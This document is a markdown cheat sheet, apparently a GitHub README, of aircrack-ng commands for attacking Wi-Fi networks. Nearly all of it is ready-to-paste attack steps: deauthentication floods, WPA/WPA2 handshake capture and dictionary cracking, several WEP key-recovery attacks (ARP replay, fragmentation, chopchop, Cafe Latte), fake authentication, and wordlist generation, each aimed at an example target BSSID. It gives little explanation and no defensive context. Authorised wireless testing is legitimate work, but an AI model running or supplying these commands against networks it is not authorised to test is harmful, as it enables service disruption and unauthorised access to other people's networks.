 # All usage of attacks by aircrack-ng

In this example
- `wlan0` is the name of your interface in manager mode
- `mon0` is the name of your interface in monitor mode
- `teddy` is the name of your target network
- `00:14:6C:7E:40:80` is the bssid of target network
- `00:09:5B:EB:C5:2B` is the bssid of your network
- `-c X` is the channel of target network
- `out.cap` is the filename to capture the WPA handshake
- `password.txt` is the filename to brute force
- `password.txt` is the file contains name of target network
- `crackwpa` is the database name for cracking password
- `sharedkey.xor` is the name of file containing the PRGA xor bits

## Scan network around

```
airmon-ng check kill
airmon-ng start wlan0
airodump-ng mon0
```

![image](https://user-images.githubusercontent.com/90561566/166110658-56663408-8ef9-4681-a5d1-4e7ec4bd3562.png)

## [Deauthentication](https://www.aircrack-ng.org/doku.php?id=deauthentication)

You can try it: https://github.com/lucthienphong1120/xDeauth

```
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
or
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 mon0
```

Ctrl+C to stop deauth

## WPA/WPA2 Handshake capture

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
ls
```

## [Cracking WPA/WPA2](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng --deauth 0 -a 00:14:6C:7E:40:80 mon0
(wait handshake)
aircrack-ng -w password.txt out*.cap 
```

## [ARP Request Replay Attack](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -0 10 -a 00:14:6C:7E:40:80 mon0
aireplay-ng -3 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## Crack WEP by ARP request reinjection

```
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w out mon0
aireplay-ng -1 100 -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
aireplay-ng -3 0 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
(wait to capture about 70.000 packet)
aircrack-ng -a 1 out*.cap
```

## Speed up cracking use database

```
sudo apt install sqlite3
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
airolib-ng crackwpa --stats # to check information about your database before batch
airolib-ng crackwpa --clean all # to clean the database from old junk and integrity check
(you can skip 2 lines above)
airolib-ng crackwpa --batch
aircrack-ng -r crackwpa out*.cap
```

## Passlist Generation tools

Aircrack often uses brute force with some other tools as follows:

- [Cupp](https://github.com/lucthienphong1120/cupp)
- /usr/share/wordlists/rockyou.txt.gz
- [Crunch](https://www.kali.org/tools/crunch)

```
crunch [min] [max] [charset] -t [pattern] -o [path file]
```

## [Interactive packet replay](https://www.aircrack-ng.org/doku.php?id=interactive_packet_replay)

Natural Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -d 00:09:5B:EB:C5:2B -t 1 mon0
```

Modified Packet Replay

```
aireplay-ng -2 -b 00:14:6C:7E:40:80 -t 1 -c 00:09:5B:EB:C5:2B -p 0841 mon0
```

Rebroadcast the packet and thereby generate new IVs

```
aireplay-ng -2 -p 0841 -c 00:09:5B:EB:C5:2B -b 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82  mon0
```

## [Fake authentication](https://www.aircrack-ng.org/doku.php?id=fake_authentication)

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Another variation

```
aireplay-ng -1 6000 -o 1 -q 10 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Shared key fake authentication](https://www.aircrack-ng.org/doku.php?id=shared_key)

Start interface monitor mode on AP channel

```
airmon-ng start wlan0 6
airodump-ng -c 6 --bssid 00:14:6C:7E:40:80 -w sharedkey mon0
(wait AUTH=SKA)
ls
```

Deauthenticate a connected client

```
aireplay-ng -0 0 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 mon0
```

`00:0F:B5:34:30:30` is the MAC address of the client you are deauthing

Perform Shared Key Fake Authentication

```
aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -y sharedkey*.xor mon0
```

## [Fragmentation Attack](https://www.aircrack-ng.org/doku.php?id=fragmentation)

```
aireplay-ng -5 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

## [Crack WEP with KoreK chopchop](https://www.aircrack-ng.org/doku.php?id=korek_chopchop)

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B mon0
```

Chopchop Without Authentication

```
aireplay-ng -4 -b 00:14:6C:7E:40:80 mon0
```

## [Crack WEP with Cafe Latte](https://www.aircrack-ng.org/doku.php?id=cafe-latte)

```
aireplay-ng -6 -b 00:14:6C:7E:40:80 -h 00:09:5B:EB:C5:2B -D mon0
```

## [ARP amplification with packetforge-ng](https://www.aircrack-ng.org/doku.php?id=arp_amplification)

Read more: https://www.aircrack-ng.org/doku.php?id=arp_amplification









